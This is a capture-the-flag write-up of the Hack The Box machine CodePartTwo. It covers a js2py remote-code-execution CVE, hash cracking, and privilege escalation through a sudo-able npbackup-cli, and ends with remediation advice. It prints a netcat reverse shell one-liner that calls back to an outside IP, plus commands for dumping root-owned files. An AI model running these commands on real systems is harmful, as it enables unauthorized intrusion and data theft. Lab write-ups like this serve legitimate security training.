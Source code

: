 # CTF Write-up — CodePartTwo from hackthebox.com

> **Summary:** Exploited a js2py SSTI RCE (CVE-2024-28397) to get an app shell, crack a user password and SSH in, then abused a sudo-able npbackup-cli misconfiguration to escalate to root.    
> **Difficulty:** Easy  
> **HTB:** https://app.hackthebox.com/machines/692
>
![Tactics](https://img.shields.io/badge/Tactics-Source%20Code%20Analysis%20%7C%20Hash%20Cracking%20%7C%20Priv%20Esc-blue?style=flat-square)
![Tools](https://img.shields.io/badge/Tools-Nmap%20%7C%20js2py%20%7C%20John-red?style=flat-square)



---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.10.11.82 -oN nmap.txt
```
- Results (high-level):
  - `8000/tcp` — HTTP (Gunicorn)
  - `22/tcp` — SSH

### Web site analysis
- after creating an account and logging in we find a ![code execution page](evidences/run_code_website.png) 
- we also find a download to the source code running this website: ![download button](evidences/download_app.png)

### Source code analysis
- we download the source code and analyze the `app.py` file. See `evidences/app.py`.  
- analyzing the file we find that the code provided by the user is ran through the `js2py` library: ![js2py code](evidences/js2py.png)
- from the requirements.txt file we find that the version is `js2py 0.74`

### CVE research
- there's a critical CVE correlated to js2py: [CVE-2024-28397](https://nvd.nist.gov/vuln/detail/CVE-2024-28397)
- there're also several PoC exploits: [PoC in python](https://github.com/advisories/GHSA-r9pp-r4xf-597r)

---

## 2. Resource development

### Reverse shell
- since the PoC allow us to do a RCE we prepare a reverse shell from [reverse shell generator](https://www.revshells.com/):   
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.26 9000 >/tmp/f
```

### Listener Socket
- we start a socket listener to catch the remote connection that will be started:
``` bash
nc -lvnp 9000
```

---

## 3. Initial access
### App user access
- once everything is ready we just need to upload the PoC, run the code and get initial access: ![initial access](evidences/initial_access.png)

### System enumeration
- we accessed as user `app`, so we need to gain access as a more priviledge user
- navigating the system we find the `user.db` file and download it locally. See `evidences/user.db`: ![users.db download](evidences/users_db_download.png)  

### Users.db enumeration
- opening the database and searching in it let us find the users hashes: ![users hashes](evidences/user_hash.png)

### Hash cracking
- we can crack the hash using John the ripper:
``` bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```
![cracked hash](evidences/cracked_hash.png)

### User Flag
- we can now ssh into the machine:
``` bash
ssh marco@10.10.11.82
```
![user flag](evidences/user_flag.png)

---

## 4. Privilege escalation
### Linux enumeration
- we use `sudo -l` to list cmds that the user can run as privileged user and find npbackup-cli: ![sudo cmds](evidences/sudo_cmds.png)
- we also find the config file for npbackup: ![npbackup config](evidences/npbackup_config.png)

### Npbackup hack
- we create a version of npbackup config that backup /root folder instead of /home/app/app: ![modified npbackup config](evidences/root_config.png)
- than we create a backup of the folder:
``` bash
npbackup-cli -c root.conf -b
```
- now we can dump file's content form this backup:
``` bash
npbackup-cli --dump /root/root.flag
```
![root flag](evidences/root_flag.png)

---

## 5. Findings & recommendations
### Key findings
| # | Category                                    | Description                                                                                            | Impact   |
| - | ------------------------------------------- | ------------------------------------------------------------------------------------------------------ | -------- |
| 1 | **Remote Code Execution (RCE)**             | The `js2py` library (v0.74) was vulnerable to arbitrary code execution (CVE-2024-28397).               | Critical |
| 2 | **Insecure Configuration Management**       | The web app allowed users to upload or execute arbitrary code, leading to exploitation.                | High     |
| 3 | **Weak Credential Storage**                 | Password hashes were stored unsalted in a SQLite database.                                             | Medium   |
| 4 | **Privilege Escalation via Backup Utility** | `npbackup-cli` was executable with elevated privileges and could be reconfigured to access root files. | High     |


### Immediate remediation (high-level)
1. **Patch and Dependency Management** Update js2py to >= 0.74.1 or any version where CVE-2024-28397 is mitigated.

2. **Secure Code Execution Handling** Never directly evaluate user-supplied input in server-side logic (especially with libraries like js2py, exec, eval, or template rendering engines).

3. **Credential and Database Security** Store credentials using strong hashing algorithms (e.g., bcrypt, argon2) with salt.

4. **Privilege Management** Restrict usage of elevated binaries (sudo access) to necessary commands only.

5. **System Hardening and Monitoring** Enable AppArmor/SELinux profiles to prevent command execution escalation.    


---